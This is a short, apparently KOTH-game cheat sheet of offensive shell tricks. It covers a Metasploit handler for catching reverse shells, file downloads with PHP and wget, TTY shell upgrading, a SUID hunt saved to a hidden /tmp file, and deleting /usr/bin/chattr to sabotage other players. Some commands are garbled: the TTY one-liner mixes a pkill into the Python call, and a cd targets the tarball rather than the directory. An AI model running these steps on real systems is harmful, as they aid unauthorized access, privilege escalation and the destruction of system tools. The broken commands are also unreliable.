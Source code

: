                                                    <Tricks-For-All-Things>

# if you need (sure will) to install "chattr" on a machine here's a gift: 

```
https://github.com/fasc8/Chattr-for-KOTH/raw/master/chattr
```

# if you want to create a simple web server in python (generally to download or install something from machine to machine): 

```
python3 -m http.server <port>
```

# if you need to see open ports:

```
netstat -anpt
```

# Download files using php:

```
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

```

```
# receive connections by metasploit:
```
```
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j
```

# if you need to install python without root:
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
```
```
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install
```

# a fully tty shell:

```
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color
```

# Search Suid's:
```
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &
```

# delete chattr:
```
rm -rf /usr/bin/chattr
  ```
# ---END---
